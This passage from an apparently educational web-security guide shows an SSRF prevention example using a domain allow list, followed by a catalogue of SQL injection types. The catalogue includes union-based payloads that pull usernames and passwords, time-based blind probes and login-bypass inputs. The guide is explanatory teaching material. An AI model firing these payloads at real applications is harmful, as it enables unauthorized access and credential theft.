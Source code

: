 **Prevention:**
```python
# Whitelist allowed domains
ALLOWED_DOMAINS = ['api.trusted.com', 'cdn.trusted.com']

@app.route('/fetch')
def fetch():
    url = request.args.get('url')
    parsed = urlparse(url)
    
    # Validate domain
    if parsed.hostname not in ALLOWED_DOMAINS:
        abort(400, "Invalid URL")
    
    # Validate scheme
    if parsed.scheme not in ['http', 'https']:
        abort(400, "Invalid scheme")
    
    response = requests.get(url, timeout=5)
    return response.content
```

## 💉 SQL Injection

### Types of SQL Injection

**1. Error-Based SQLi:**
```sql
' OR 1=1 --
' UNION SELECT NULL, NULL, NULL --
```

**2. Union-Based SQLi:**
```sql
' UNION SELECT username, password FROM users --
```

**3. Blind SQLi (Boolean-Based):**
```sql
' AND 1=1 --  (returns true)
' AND 1=2 --  (returns false)
```

**4. Time-Based Blind SQLi:**
```sql
' AND SLEEP(5) --
' OR IF(1=1, SLEEP(5), 0) --
```

### Common Payloads

**Authentication Bypass:**
```sql
Username: admin' --
Password: anything

Username: admin' OR '1'='1
Password: admin' OR '1'='1
```
